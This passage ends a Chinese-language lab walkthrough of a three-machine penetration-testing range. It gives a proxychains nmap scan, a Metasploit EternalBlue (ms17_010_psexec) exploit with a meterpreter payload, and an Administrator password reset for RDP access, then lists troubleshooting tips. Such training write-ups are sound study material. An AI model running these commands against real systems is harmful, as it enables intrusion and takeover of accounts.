 ![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS40.png)
5、尝试扫描Target3
```bash
root@kali:~# proxychains4 nmap -Pn -sT 192.168.33.33
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS43.png)
# 0x03 Target3
## a、获取shell
1、从扫描的结果来看，不难看出这是一个开放着445、3389端口的Windows系统，那就先用永恒之蓝攻击试试
```bash
msf5 > use exploit/windows/smb/ms17_010_psexec
msf5 exploit(windows/smb/ms17_010_psexec) > set payload windows/meterpreter/bind_tcp
msf5 exploit(windows/smb/ms17_010_psexec) > set RHOST 192.168.33.33
msf5 exploit(windows/smb/ms17_010_psexec) > options
msf5 exploit(windows/smb/ms17_010_psexec) > run
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS44.png)

2、查看账户，直接修改账户密码，利用3389连接，注意要在SocksCap中运行连接远程桌面程序
```bash
meterpreter > shell
C:\Windows\system32>net user
C:\Windows\system32>net user Administrator 123
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS45.png)
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS46.png)

# 0x04 总结
到目前为止，三台靶机都已经拿下，这里推荐读者能够自己亲手尝试，找到里面的flag，其中所有flag的找寻方式，会在我的公众号“TeamsSix”推送，这里只讲述拿下三台靶机的方法。
这次的练习耗费了自己的大量时间，从靶场搭建到获取到第三层靶机的shell，这其中碰到的一些问题及我自己踩过的一些坑记录在下面：

1、蚁剑中查看一些文件会提示权限不足，在meterpreter中可以正常查看
2、蚁剑中在Target2里执行命令或者查看文件时不时会失败，初步判断是因为本地网络代理的原因，多试几次就行，总有一次是成功的
3、MSF中Socks5代理模块使用总是失败，Socks4a模块使用成功
4、MSF中建立的会话总是自动断开，将会话连接的靶机上的防火墙关闭即可
5、MSF中ms17_010_eternalblue模块利用总是失败，ms17_010_psexec模块使用成功
6、meterpreter中查看文件的路径和Windows下文件的路径里的“/”是相反的
7、meterpreter中上传文件大小貌似有限制，文件上传到8M左右就会提示失败，因此需要将文件压缩成多个小文件进行上传，同时上传7-zip工具（该工具只有1M大小），再利用7-zip对其解压即可，当然此方法仅适用于Windows，linux上的方法可以自行谷歌

>参考文章：
>http://zerlong.com/512.html
>https://www.anquanke.com/post/id/170649
>https://www.anquanke.com/post/id/164525
>https://blog.csdn.net/qq_36711453/article/details/84977739
>这些文章在很大程度上帮助了我这个菜鸟，在这里向以上文章的作者表示感谢。

>本文首发地址：https://www.anquanke.com/post/id/187908

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)